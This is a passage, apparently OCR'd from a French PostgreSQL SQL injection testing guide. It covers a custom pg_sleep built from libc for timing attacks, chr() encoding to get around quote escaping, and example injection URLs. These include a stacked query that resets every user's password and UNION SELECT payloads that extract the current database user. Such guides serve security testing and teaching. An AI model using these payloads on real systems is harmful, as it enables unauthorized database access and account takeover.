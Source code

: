 De plus, vous pouvez facilement créer un `pg_sleep(n)` personnalisé dans les versions précédentes en utilisant libc :

- `CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT`

### Citation unique Unescape

Les chaînes peuvent être encodées, pour empêcher les guillemets simples de s'échapper, en utilisant la fonction `chr()`.

- `chr(n)` : Renvoie le caractère dont la valeur ASCII correspond au nombre `n`
- `ascii(n)` : Renvoie la valeur ASCII qui correspond au caractère `n`

Supposons que vous souhaitiez encoder la chaîne 'root' :

```sql
select ascii('r')
114
select ascii('o')
111
select ascii('t')
116
```

Nous pouvons encoder 'root' comme:

`chr(114)||chr(111)||chr(111)||chr(116)`

#### exemple

`http://www.exemple.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--`

### Vecteurs d'attaque

#### Utilisateur actuel

L'identité de l'utilisateur actuel peut être récupérée avec les instructions SQL SELECT suivantes :

```sql
SELECT user
SELECT current_user
SELECT session_user
SELECT usename FROM pg_user
SELECT getpgusername()
```

##### exemple

```text
http://www.exemple.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
http://www.exemple.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--
```

#### Base de données actuelle

La fonction intégrée current\_database() renvoie le nom de la base de données actuelle.
